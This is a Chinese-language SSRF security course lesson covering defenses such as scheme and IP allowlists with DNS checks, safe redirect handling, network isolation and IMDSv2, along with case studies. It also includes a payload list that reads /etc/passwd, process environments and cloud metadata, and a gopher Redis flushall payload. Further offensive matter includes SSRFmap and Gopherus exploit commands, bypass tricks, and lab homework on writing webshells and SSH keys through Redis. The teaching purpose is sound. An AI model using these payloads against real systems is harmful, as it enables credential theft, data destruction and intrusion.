

> 🎯 **核心理解**：  
黑名单永远防不住 SSRF，必须**白名单 + 多层校验**。
>

---

## 4.2 防御方案 1：协议白名单
```python
ALLOWED_SCHEMES = {"http", "https"}

def check_scheme(url):
    scheme = urlparse(url).scheme
    if scheme not in ALLOWED_SCHEMES:
        raise ValueError(f"scheme {scheme} not allowed")
```

**禁止**：

```plain
file://   gopher://   dict://   ldap://   ftp://   expect://
```

---

## 4.3 防御方案 2：IP 白名单（关键）
### 正确流程


### 代码示例
```python
import socket, ipaddress, requests
from urllib.parse import urlparse

def is_safe_url(url, allow_domains=None):
    parsed = urlparse(url)
    if parsed.scheme not in ("http", "https"):
        return False

    # DNS 解析
    try:
        infos = socket.getaddrinfo(parsed.hostname, None)
        ips = {info[4][0] for info in infos}
    except socket.gaierror:
        return False

    # 检查每个 IP
    for ip_str in ips:
        try:
            ip = ipaddress.ip_address(ip_str)
        except ValueError:
            return False
        # 禁止内网 / 回环 / 链路本地 / 私有
        if (ip.is_private or ip.is_loopback or ip.is_link_local
                or ip.is_multicast or ip.is_reserved):
            return False

    # 域名白名单（可选）
    if allow_domains and parsed.hostname not in allow_domains:
        return False

    return True

def safe_fetch(url):
    if not is_safe_url(url):
        raise ValueError("unsafe url")
    # 关键：禁用重定向
    r = requests.get(url, allow_redirects=False, timeout=5)
    return r
```

---

## 4.4 防御方案 3：禁用重定向 / 自定义重定向处理
```python
def fetch_with_safe_redirects(url, max_redirects=3):
    current = url
    for _ in range(max_redirects):
        if not is_safe_url(current):
            raise ValueError(f"unsafe url: {current}")
        r = requests.get(current, allow_redirects=False, timeout=5)
        if r.status_code in (301, 302, 303, 307, 308):
            current = r.headers.get("Location", "")
            if not current:
                break
            continue
        return r
    raise ValueError("too many redirects")
```

**关键**：每跳一次都要重新校验。

---

## 4.5 防御方案 4：使用专用出口 / 网络隔离


**网络层防御**：

+ Web 服务器所在子网 ACL 禁止访问内网管理段
+ 出网必须经代理
+ Redis / MySQL 仅监听 127.0.0.1，绝不暴露 0.0.0.0

---

## 4.6 防御方案 5：每个组件都要保护
```plain
□ 上游服务（OAuth、SAML）：禁本地回调
□ Webhook 接收方：限定白名单域名
□ 文件下载：禁止 file 协议
□ 在线工具（PDF/截图）：单独沙箱
□ 图片代理：只允许 http/https
□ RSS：限定协议 + 白名单
```

---

## 4.7 防御方案 6：云元数据保护
### AWS IMDSv2 强制
```bash
# AWS CLI 强制 IMDSv2
aws ec2 modify-instance-metadata-options \
    --instance-id i-xxx \
    --http-tokens required \
    --http-endpoint enabled
```

### 阿里云 / 腾讯云
类似机制：开启"元数据强制 Token 鉴权"。

---

## 4.8 真实案例赏析
### 案例 1：Capital One 数据泄露 (2019)
+ **漏洞**：WAF 配置错误 + SSRF
+ **攻击链**：
    1. 通过 WAF 误配置进入内网 EC2
    2. SSRF 访问 169.254.169.254
    3. 拿到 IAM 角色 AccessKey
    4. 用 AccessKey 列 S3
    5. 下载 1.06 亿用户数据
+ **后果**：罚款 1.9 亿美元，攻击者 8 年监禁

### 案例 2：Imgur SSRF (2017)
+ **漏洞**：图片上传接口未校验 URL
+ **利用**：通过 SSRF 探测内网 + 访问 AWS 元数据
+ **影响**：内部网络结构泄露

### 案例 3：GitHub Webhook SSRF (2018)
+ **漏洞**：Webhook URL 未做白名单
+ **利用**：攻击者配置 Webhook 指向内网
+ **修复**：限定 Webhook 必须为公网域名

### 案例 4：Shopify SSRF (2018)
+ **漏洞**：商店导入功能可拉取任意 URL
+ **利用**：拉取 169.254.169.254
+ **赏金**：$25,000

### 案例 5：华为云 / 阿里云历史上的 SSRF
+ 多个产品曾因 SSRF 暴露元数据
+ 后统一强制 IMDSv2

### 案例 6：2019 微博 SSRF (CVE-2019-…)
+ **漏洞**：图片代理接口
+ **利用**：探测内网 + 访问云元数据
+ 修复：增加白名单 + 内网隔离

---

## 4.9 SSRF 漏洞挖掘清单


### 入口参数名清单
```plain
□ url / link / src / source / target / endpoint
□ host / domain / ip / port
□ callback / redirect / return / next
□ webhook / notify
□ image / avatar / thumbnail
□ proxy / fetch / load / get
□ file / load_file / read
```

### 必测 Payload 清单
```plain
file:///etc/passwd
file:///proc/self/environ
http://127.0.0.1/
http://localhost/
http://[::1]/
http://192.168.0.1/
http://169.254.169.254/latest/meta-data/
http://100.100.100.200/latest/meta-data/
dict://127.0.0.1:6379/INFO
gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a
ldap://127.0.0.1/dc=xxx
```

---

## 4.10 SSRF 自动化检测
### Burp Collaborator
```plain
Burp → Project options → Misc → Server → Collaborator server
```

+ 生成随机域名 `xxx.oastify.com`
+ 测试时用此域名作为 URL
+ Burp 后台监听 DNS / HTTP 请求
+ 看是否被访问

### 工具：SSRFmap
```bash
git clone https://github.com/swisskyrepo/SSRFmap.git
cd SSRFmap
python3 ssrfmap.py -r request.txt -p url -m readfiles
```

模块：

+ readfiles        读本地文件
+ redis            攻击 Redis
+ portscan         端口扫描
+ network          网络探测
+ metdata          云元数据

### 工具：Gopherus
```bash
./gopherus.py --exploit redis/mysql/fastcgi/smtp/zabbix
```

---

## 4.11 第 4 课小结
| 防御 | 强度 | 实现复杂度 |
| --- | :---: | :---: |
| 协议白名单 | ★★★★ | 低 |
| IP 白名单 + DNS 解析校验 | ★★★★★ | 中 |
| 禁用重定向 / 安全跟随 | ★★★★★ | 中 |
| 域名白名单 | ★★★★ | 低 |
| 网络层隔离 | ★★★★★ | 高 |
| IMDSv2 强制 | ★★★★ | 低 |


### 最佳实践组合
```plain
协议白名单 + IP 白名单（含 DNS 解析）+ 禁用重定向 + 网络隔离 + IMDSv2
```

---

# 📝 课程总回顾（必背 30 条）
### 基础
1. SSRF = 借服务器网卡发请求
2. 与 CSRF 区别：CSRF 借用户 Cookie，SSRF 借服务器网卡
3. 高发场景：URL 预览 / 文件下载 / Webhook / 在线工具
4. 危险协议：file / dict / gopher / ldap / expect
5. 危害核心：内网穿透 + 拿凭证

### 云元数据
6. AWS IP：169.254.169.254
7. 阿里云 IP：100.100.100.200
8. IMDSv1 直接 GET，IMDSv2 需 PUT 拿 Token
9. Capital One 2019 1.06 亿用户泄露
10. 拿到 IAM Token → 完全控制云账号

### SSRF → Redis 协议转换（详见 Redis 课件）
11. Redis 默认无密码监听 0.0.0.0 → SSRF 最佳目标
12. RESP 协议：`*N` 数组 + `$N` 字符串 + `\r\n`
13. gopher URL：用 `%0d%0a` 表示 `\r\n` + URL 编码
14. Redis 4 种 RCE：webshell / SSH key / cron / 主从复制
15. 工具：Gopherus / SSRFmap（详见 `Redis安全详解.md`）

### 绕过
16. 进制：2130706433 / 0x7f.0.0.1 / 0177.0.0.1 / 127.1
17. IPv6：[::1] / [::ffff:127.0.0.1]
18. DNS Rebinding：两次解析返回不同 IP
19. URL userinfo：[http://evil@127.0.0.1/](http://evil@127.0.0.1/)
20. 302 重定向：校验外网，跳转内网
21. 通配 DNS：nip.io / sslip.io / lvh.me

### 防御
22. 协议白名单：只允许 http/https
23. IP 白名单 + DNS 解析校验
24. 禁用 / 安全跟随重定向
25. 网络层隔离
26. IMDSv2 强制
27. 内部服务必须监听 127.0.0.1

### 工具
28. Gopherus：自动生成 gopher Payload
29. SSRFmap：自动化检测利用
30. Burp Collaborator：盲 SSRF 检测

---

# 🎯 课后作业
### 基础题
1. 启动自建 Flask SSRF 靶场，用 /proxy 读 /etc/passwd
2. 完成 pikachi SSRF curl 关卡，访问 file:// 和内网
3. 用 nip.io / sslip.io 验证通配 DNS 解析

### 进阶题
4. 用 Gopherus 生成 Redis 写 webshell 的 gopher Payload
5. 启动一个 Redis 容器，通过 SSRF + gopher 写入 webshell 并连接
6. 启动带黑名单的 Flask 靶场，依次尝试 10 种绕过方法

### 实战题
7. **代码审计**：找一个开源 PHP 项目，grep `file_get_contents` / `curl_exec`，找出未做白名单的接口
8. **完整攻击链**：vulhub Discuz SSRF → 302 跳转 → 攻击内网 Redis → 写 SSH Key
9. **写防御**：用 Python 实现一个完整的 SSRF 防御函数，包含协议/IP/重定向校验

---
